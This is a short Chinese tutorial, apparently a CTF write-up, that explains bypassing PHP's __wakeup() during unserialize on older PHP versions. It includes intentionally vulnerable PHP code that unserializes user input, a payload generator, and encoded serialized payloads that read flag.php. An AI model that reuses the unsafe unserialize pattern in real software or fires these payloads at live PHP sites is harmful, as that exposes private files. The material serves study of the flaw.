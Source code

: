 `php5.0.0 ~ php5.6.25`

`php7.0.0 ~ php7.0.10`

`php`源码

```php
<?php
	highlight_file(__FILE__);
	class A{
		private $filename = 'test.txt';

		public function __wakeup() {
			$this->filename = 'test.txt';
		}
	
		public function __destruct() {
			echo file_get_contents($this->filename);
		}
	
	}

	$data = $_GET['data'];
	unserialize($data);
```

`php`语言的特性为在反序列化时，先执行 `__wakeup()`魔术方法，才会执行 `__destruct()`魔术方法

也就是说当我们使用 `payload`

```php
<?php
    class A{
        private $filename = 'flag.php';
    }

    echo urlencode(serialize(new A()));
```

`O%3A1%3A%22A%22%3A1%3A%7Bs%3A11%3A%22%00A%00filename%22%3Bs%3A8%3A%22flag.php%22%3B%7D`

去反序列化时

结果为

![php_unseriablize1](phpUnserialize/s1.png)

可以发现我们在反序列化时修改的 `$filename`的值在 `__wakeup()`函数时由 `flag.php`修改为了 `test.txt`

绕过 `__wakeup()`函数时将 `对象属性个数的值`大于 `真实的属性个数时`即可绕过

即 `O%3A1%3A%22A%22%3A1%3A%7Bs%3A11%3A%22%00A%00filename%22%3Bs%3A8%3A%22flag.php%22%3B%7D`

改为，只需要将对象个数大于 `1`即可，`2`，`3`，`4`等等都行，这里我使用 `2`

`O%3A1%3A%22A%22%3A2%3A%7Bs%3A11%3A%22%00A%00filename%22%3Bs%3A8%3A%22flag.php%22%3B%7D`

即可获取想要的文件的内容
